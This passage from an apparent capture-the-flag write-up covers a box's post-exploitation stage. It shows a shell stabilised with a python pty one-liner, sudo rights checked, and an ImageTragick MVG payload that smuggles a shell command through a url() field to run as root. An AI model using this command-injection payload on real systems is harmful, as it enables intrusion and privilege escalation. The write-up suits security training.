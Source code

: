 Voila - we have a shell!

Let's stabilise this shell using the following:

```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"
<Ctrl + Z>
> stty raw -echo
> fg
<ENTER>
<ENTER>
$ export TERM=xterm
```

### Privilege Escalation

One of the lowest hanging fruit is checking if the current user has any special abilities set in the sudoers file. We can do this using `sudo -l`

![](/assets/images/mystiko/mystiko-19.png)

Luckily, the user not only has the ability to run `/usr/bin/pixel` as root, but also without a password!

![](/assets/images/mystiko/mystiko-20.png)

When researching the `convert` program, we are taken to the ImageMagick suite of tools. 

After a little more research, it appears the ImageMagick suite is vulnerable to an exploit aptly named ImageTragick.

Using the proof of concept found here: https://rhinosecuritylabs.com/research/imagemagick-exploit-remediation/, we can create our exploit.

```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"| [command]")'
pop graphic-context
```

